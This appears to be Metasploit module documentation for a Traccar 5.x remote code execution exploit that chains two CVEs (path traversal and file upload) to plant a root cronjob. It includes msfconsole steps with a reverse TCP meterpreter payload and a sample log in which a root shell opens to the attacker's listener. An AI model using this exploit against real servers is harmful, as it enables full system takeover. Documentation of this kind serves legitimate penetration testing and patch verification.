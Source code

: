 ## Vulnerable Application

This module exploits two vulnerabilities in Traccar v5.1 - v5.12 to obtain remote code execution: A path traversal vulnerability
(CVE-2024-24809) and an unrestricted file upload vulnerability (CVE-2024-31214). By default, the application allows self-registration,
enabling any user to register an account and exploit the issues. Moreover, the application runs by default with root privileges,
potentially resulting in a complete system compromise.
This module, which should work on any Red Hat-based Linux system, exploits these issues by adding a new cronjob file that executes the
specified payload.

## Testing

The software can be obtained from
[the vendor](https://github.com/traccar/traccar/releases/download/v5.12/traccar-linux-64-5.12.zip).

Installation instructions are available [here](https://www.traccar.org/linux/).

The vulnerable application runs by default on Eclipse Jetty, which listens on TCP port 8082.

**Successfully tested on**

- Traccar v5.12 on Rocky Linux 9.4
- Traccar v5.11 on Rocky Linux 9.4

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf6 > use exploit/linux/http/traccar_rce_upload  
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/traccar_rce_upload) > set RHOSTS <IP>
msf6 exploit(linux/http/traccar_rce_upload) > set LHOST <IP>
msf6 exploit(linux/http/traccar_rce_upload) > exploit
```

You should get a meterpreter session in the context of `root`.

## Options

### USERNAME
Username to be used when creating a new user.

### PASSWORD
Password for the new user.

### EMAIL
E-mail for the new user.

## Scenarios

Running the exploit against Traccar v5.12 on Rocky Linux 9.4, using curl as a fetch command, should result in an output similar
to the following:

```
msf6 exploit(linux/http/traccar_rce_upload) > exploit 

[*] Started reverse TCP handler on 192.168.217.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Registering new user...
[*] Authenticating...
[*] Adding new device...
[*] Uploading crontab file...
[*] Cronjob successfully written - waiting for execution...
[*] Sending stage (3045380 bytes) to 192.168.217.138
[*] Meterpreter session 1 opened (192.168.217.128:4444 -> 192.168.217.138:58196) at 2024-08-25 17:03:02 -0400
[*] Exploit finished, check thy shell.

meterpreter > sysinfo 
Computer     : localhost.localdomain
OS           : Red Hat 9.4 (Linux 5.14.0-427.13.1.el9_4.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

meterpreter > getuid 
Server username: root
```
